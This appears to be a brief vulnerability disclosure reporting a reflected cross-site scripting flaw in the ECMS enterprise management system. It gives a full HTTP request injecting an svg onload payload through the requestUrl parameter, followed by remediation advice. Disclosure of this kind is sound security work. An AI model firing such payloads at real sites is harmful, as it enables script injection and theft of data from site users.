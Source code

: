 

xss vulnerability exists in ECMS all-information consulting enterprise management system

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

https://www.gczj.com.cn/

```
GET /?begindate=wbmj3&categoryid=gi7l5&dotColor=elma1&emailto=ijbh2&enddate=f21z9&key=n6co5&list_type=x9el3&p=awso8&page=pk6p2&requestUrl=requestUrl="><svg onload=alert(1)>//&tid=h2jf3&uid=pf825&vcode=zwvt3 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```

![](./4.png)

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.